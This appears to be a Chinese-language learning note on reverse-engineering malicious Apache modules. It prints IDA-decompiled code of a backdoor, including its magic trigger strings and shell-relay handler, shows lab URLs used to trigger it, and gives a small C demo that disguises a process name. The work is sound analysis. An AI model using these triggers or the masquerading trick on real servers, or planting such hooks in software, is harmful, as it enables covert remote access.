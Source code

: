 # 基础知识

以sub开头加地址的是没有函数表也不是debug的

# 先分析一个简单的
地址：[Apache-HTTP-Server-Module-Backdoor](https://github.com/WangYihang/Apache-HTTP-Server-Module-Backdoor)

**注意centos这类系统安装的是httpd-devel，不是apache2-dev，然后记得重启服务**


> 这个是使用了一个popen的函数执行了系统命令，配合源码，感觉比较容易看懂

![title](https://i.loli.net/2019/05/14/5cda26a7ac7a028583.png)


# 再来分析这个

首先，根据上面的思路，发现没有白底加粗的自定义的函数，，，，然后找到一个_init_proc初始化的一个函数,直接F5（目前还就会这一个操做）
```
void (*init_proc())(void)
{
  start();
  sub_1010();
  return sub_2280();
}
```
start()应该就是类似初始化的一些操做。和上一个对比了一下，发现并没有什么异常接下来查看sub_1010代码如下
```
signed __int64 __fastcall sub_2101(__int64 a1)
{
  int v2; // [rsp+14h] [rbp-Ch]
  __int64 v3; // [rsp+18h] [rbp-8h]

  v3 = ap_get_module_config(*(_QWORD *)(*(_QWORD *)(a1 + 8) + 104LL), (__int64)&core_module);
  if ( v3 )
    v2 = *(_DWORD *)(v3 + 8);
  if ( *(_QWORD *)(a1 + 352) && !strcmp(*(const char **)(a1 + 352), "hackinglabwelcomeyou!")
    || *(_QWORD *)(a1 + 384) && !strcmp(*(const char **)(a1 + 384), "hackinglabwelcomeyou!") )
  {
    process_client(256, v2);
  }
  if ( *(_QWORD *)(a1 + 352) && !strcmp(*(const char **)(a1 + 352), "wearefriends+")
    || *(_QWORD *)(a1 + 384) && !strcmp(*(const char **)(a1 + 384), "wearefriends+") )
  {
    process_client(512, v2);
  }
  return 0xFFFFFFFFLL;
}
```
先读取了一个配置文件（后来我查了一下ap_get_module_config，应该是还可以读取url的一些信息），然后根据这个信息得到v2然后做了两个字符串的比较分别执行了process_client(256, v2)和process_client(512, v2)
```
void __fastcall __noreturn process_client(int a1, int a2)
{
  unsigned int v2; // edx
  int v3; // eax
  unsigned int v4; // edx
  ssize_t v5; // rax
  ssize_t v6; // rax
  char s1; // [rsp+10h] [rbp-10A0h]
  fd_set readfds; // [rsp+1010h] [rbp-A0h]
  int buf; // [rsp+1090h] [rbp-20h]
  int v10; // [rsp+1094h] [rbp-1Ch]
  int v11; // [rsp+1098h] [rbp-18h]
  int v12; // [rsp+109Ch] [rbp-14h]

  buf = a1;
  v10 = write(pipe_A[1], &buf, 4uLL);
  if ( v10 != 4 )
    exit(0);
  v10 = read(pipe_B[0], &buf, 4uLL);
  if ( v10 != 4 )
    exit(0);
  if ( buf == 16 )
    exit(0);
  while ( 1 )
  {
    memset(&readfds, 0, sizeof(readfds));
    v11 = 0;
    v12 = (unsigned __int64)&buf;
    v2 = (unsigned int)(pipe_B[2 * buf] >> 31) >> 26;
    readfds.fds_bits[pipe_B[2 * buf] / 64] |= 1LL << (((v2 + pipe_B[2 * buf]) & 0x3F) - v2);
    readfds.fds_bits[a2 / 64] |= 1LL << a2 % 64;
    v3 = a2;
    if ( pipe_B[2 * buf] >= a2 )
      v3 = pipe_B[2 * buf];
    v10 = v3;
    if ( select(v3 + 1, &readfds, 0LL, 0LL, 0LL) < 0 )
      exit(0);
    v4 = (unsigned int)(pipe_B[2 * buf] >> 31) >> 26;
    if ( !((readfds.fds_bits[pipe_B[2 * buf] / 64] >> (((v4 + pipe_B[2 * buf]) & 0x3F) - v4)) & 1) )
      goto LABEL_24;
    v10 = read(pipe_B[2 * buf], &s1, 0x1000uLL);
    if ( v10 > 0 )
    {
      if ( !strncmp(&s1, &s2, 4uLL) )
      {
        shutdown(a2, 2);
        exit(0);
      }
      v5 = send(a2, &s1, v10, 0);
      if ( v5 == v10 )
      {
LABEL_24:
        if ( !((readfds.fds_bits[a2 / 64] >> a2 % 64) & 1) )
          continue;
        v10 = recv(a2, &s1, 0x1000uLL, 0);
        if ( v10 > 0 )
        {
          v6 = write(pipe_A[2LL * buf + 1], &s1, v10);
          if ( v6 == v10 )
            continue;
        }
      }
    }
    shutdown(a2, 2);
    write(pipe_A[1], &buf, 4uLL);
    exit(0);
  }
}
```
> 这个就没有之前那么简单了，好像看一眼源码啊

综合一下上面的分析尝试访问下面两个url
```
view-source:http://192.168.72.137/?wearefriends+
回显rootme-0.3 ready，说明的确是这样用的

http://192.168.72.137/?hackinglabwelcomeyou!
无线连接，感觉有点像反弹shell时候的状态，而且上面的的函数命名为process_client有点可能是弹shell吧，那就是正向连接和反弹shell，正向连接的话防火墙并没有开放其他端口，反弹的话程序中也没有IP字段
```

> 感觉这里就遇到了瓶颈，对这个linux的动态链接库so还是了解的太少了，后来有对照着看了一下mod_version.so也没对比出东西来



# 一些其他的事
放一些前面过程查询到的一些资料连接

apache动态链接库函数的一些说明
- [关于ap_get_module_config的一个问题](https://grokbase.com/t/apache/modules-dev/06amwtemvp/question-about-ap-get-module-config) 就是这个问题让我发现这个有可能是是根据url上提交参数的方式执行的
- [apache动态链接库里面的函数官方说明](https://ci.apache.org/projects/httpd/trunk/doxygen/group__APACHE__CORE__CONFIG.html)

关于动态链接库的一些基础知识
- [解析如何在C语言中调用shell命令的实现方法](https://www.cnblogs.com/sky-heaven/p/4687489.html)讲了三个system()、popen()、vfork(),应该不太全，至少还有exec
- [C/C++ 静态链接库(.a) 与 动态链接库(.so)](http://www.cnblogs.com/52php/p/5681711.html)说了一下动态链接库的基础知识
- [Linux动态链接库.so文件的命名及用途总结](http://blog.sina.com.cn/s/blog_3ee731bc0102xx9n.html),里面提到一个有意思的命令ldd +可执行程序 可以查看这个程序加载了那些动态链接库（要是面试ali的时候知道这个就好了）


然后还学到了一个新的命令
```
# linux终端下比较两个文件
diff -u file1 file2	#快速
vimdiff file1 file2	#直观
```

# 再回来刚这个
随便在翻一翻发现有一些地方一直在试图执行/usr/sbin/apache2 -k start这个命令，但是因为是centos，并没有apache2这个文件，正确的文件应该是httpd，然后ps aux 发现进程中也存在这个，仔细看了一下，这是一个exec系列的函数！！！
![title](https://i.loli.net/2019/05/14/5cda9d351319869939.png)

尝试写一个
```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
//函数原型：int execlp(const char *file, const char *arg, ...);
int main(void)
{
     printf("before execlp****\n");
     if(execlp("ps","/usr/sbin/apache3","-l",NULL) == -1)
     {
         printf("execlp failed!\n");
     }
     printf("after execlp*****\n");
     return 0;
}
```

编译后执行`./a.out & ps aux` 发现真的有进程COMMAND为`/usr/sbin/apache3`的进程，但是从输出上看并不是单纯的`ps aux`命令，还掺杂着`ps -l`的结果。hhhhh

那么问题来了rootkit里面的s是那里来的

